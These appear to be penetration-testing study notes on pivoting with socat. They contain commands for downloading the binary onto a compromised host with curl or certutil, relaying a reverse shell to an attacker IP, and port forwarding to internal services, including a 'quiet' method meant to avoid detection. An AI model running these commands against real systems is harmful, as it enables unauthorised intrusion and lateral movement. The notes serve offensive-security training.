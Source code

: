 https://github.com/andrew-d/static-binaries/tree/master/binaries

https://github.com/3ndG4me/socat/releases

On Kali (inside the directory containing your Socat binary):

```bash - kali
sudo python3 -m http.server 80
```

Then, on the target:  
```
curl 192.168.111.133/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME
```

```
certutil -urlcache -split -f http://192.168.111.133/socatx64.exe
```


standard netcat listener on our attacking box 

![[1._rlwrap]]

Next, on the compromised server, use the following command to start the relay:  

```
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
```

_**Note:** the order of the two addresses matters here. Make sure to open the listening port first,_ then _connect back to the attacking machine._

From here we can then create a reverse shell to the newly opened port 8000 on the compromised server. This is demonstrated in the following screenshot, using netcat on the remote server to simulate receiving a reverse shell from the target server:

![[Pasted image 20220116094947.png]]

A brief explanation of the above command:

-   `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
-   `tcp:ATTACKING_IP:443` connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
-   `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.

The relay connects back to a listener started using an alias to a standard netcat listener: `sudo rlwrap -cAr nc -lvnp 443`.


**Port Forwarding -- Easy**

The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server. For example, if the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward:  
```
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &  
```

This opens up port 33060 on the compromised server and redirects the input from the attacking machine straight to the intended target server, essentially giving us access to the (presumably MySQL Database) running on our target of 172.16.0.10. The `fork` option is used to put every connection into a new process, and the `reuseaddr` option means that the port stays open after a connection is made to it. Combined, they allow us to use the same port forward for more than one connection. Once again we use `&` to background the shell, allowing us to keep using the same terminal session on the compromised server for other things.

We can now connect to port 33060 on the relay (172.16.0.5) and have our connection directly relayed to our intended target of 172.16.0.10:3306.


**Port Forwarding -- Quiet**

The previous technique is quick and easy, but it also opens up a port on the compromised server, which could potentially be spotted by any kind of host or network scanning. Whilst the risk is not _massive_, it pays to know a slightly quieter method of port forwarding with socat. This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

First of all, on our own attacking machine, we issue the following command:  
`socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the `fork` and `reuseaddr` options set, to allow us to create more than one connection using this port forward.

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:  
`./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &  
`

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:  
`./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &  
`

This would create a link between port 8000 on our attacking machine, and port 80 on the intended target (172.16.0.10), meaning that we could go to `localhost:8000` in our attacking machine's web browser to load the webpage served by the target: 172.16.0.10:80!

This is quite a complex scenario to visualise, so let's quickly run through what happens when you try to access the webpage in your browser:

-   The request goes to `127.0.0.1:8000`
-   Due to the socat listener we started on our own machine, anything that goes into port 8000, comes out of port 8001
-   Port 8001 is connected directly to the socat process we ran on the compromised server, meaning that anything coming out of port 8001 gets sent to the compromised server, where it gets relayed to port 80 on the target server.

The process is then reversed when the target sends the response:

-   The response is sent to the socat process on the compromised server. What goes into the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine.
-   Anything that goes into port 8001 on our attacking machine comes out of port 8000 on our attacking machine, which is where the web browser expects to receive its response, thus the page is received and rendered.

We have now achieved the same thing as previously, but without opening any ports on the server!